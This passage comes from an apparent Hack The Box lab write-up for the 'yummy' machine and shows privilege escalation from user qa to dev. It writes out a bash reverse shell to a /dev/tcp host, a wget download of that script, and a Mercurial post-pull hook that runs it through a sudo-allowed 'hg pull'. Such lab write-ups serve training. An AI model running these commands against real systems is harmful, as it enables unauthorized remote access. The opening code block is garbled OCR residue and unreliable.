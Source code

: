 ```
kwJj
d[I})u
^+Wq@
$       JJKx8
D'<a
```
The file contains credentials for the user **qa**!

I then SSH'd into **yummy.htb** using the credentials for **qa** found in the file.

## Priv-Esc to User 'dev'
Running `sudo -l` as the user **qa** I saw that I could run `/usr/bin/hg pull /home/dev/app-production/` as the user **dev**.

#### Steps for Exploitation:
1. Copy the original `.hgrc` to a temporary directory.\
`cd /tmp; mkdir .hg; chmod 777 .hg; cp ~/.hgrc .hg/hgrc`

2. Create a reverse shell on local machine\
`echo "bash -c 'bash -i >& /dev/tcp/<ip address>/<port> 0>&1'" > rev.sh`

3. Download the reverse shell onto the target\
`cd /tmp/.tools; wget http://<ip address>/rev.sh`

4. Make the reverse shell script executable\
`chmod +x /tmp/.tools/rev.sh`

5. Add the reverse shell execution call after the last line of **/tmp/.hg/hgrc**:\
`[hooks]
post-pull = /tmp/.tools/rev.sh`

![Reverse Shell Call](images/qa_to_dev_privesc_nano.png)
